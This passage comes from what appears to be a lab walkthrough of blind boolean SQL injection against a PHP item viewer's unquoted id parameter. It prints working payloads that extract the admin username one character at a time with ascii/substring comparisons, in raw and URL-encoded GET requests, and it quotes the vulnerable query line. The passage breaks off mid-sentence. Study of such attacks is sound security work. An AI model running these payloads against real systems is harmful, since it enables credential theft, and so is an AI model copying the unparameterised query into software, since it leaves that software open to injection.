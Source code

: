 - It is part of a GET request: `http://192.168.26.129/item/viewItem.php?id={PAYLOAD}`
- The `id` parameter does not have single/double quotes around it which makes it easier for injection.

# Extract data from the database via bruteforce

Since we have access to the source code and we know the database and tables names, we can skip the discovery of this part and go straight to data extraction via SQL injection.

File `db.sql` of the source code provided:

![](Untitled1.png)

We can start by sending a SQL query to return all entries in the `user` table that has `id_level=1`, admin privileges, and check if the first letter of the entry start with “a”. We also add the `limit 1` to make sure it will return only one entry, in case there are more then one users with `id_level=1`.

```sql
select (substring(username,1,1)) from user where id_level=1 limit 1 = 'a'
```

However, the single and double quotes are being filtered by  `mysqli_query()` function:

```php
$data = mysqli_query($conn, "SELECT * FROM item WHERE id = $id");
```

One workaround is using the ascii table. So instead of comparing it to the letter “a” we will compare it to “97” and wrap the SQL query into ascii function.

The final query to check if the admin level username starts with letter “a” would look like this:

```sql
select (select ascii(substring(username,1,1)) from user where id_level=1 limit 1) = 97
```

The GET request look like this:

```php
GET /item/viewItem.php?id=5 OR (select (select ascii(substring(username,1,1)) from user where id_level=1 limit 1) = 97)

# URL ENCODED (via Burp = CTRL+U)
GET /item/viewItem.php?id=5+OR+(select+(select+ascii(substring(username,1,1))+from+user+where+id_level%3d1+limit+1)+%3d+97)
```

Response: HTTP/1.1 404 Not Found.

This actually means that the comparison is correct, otherwise we would be redirected to the login page based on the `viewItem.php` code here:

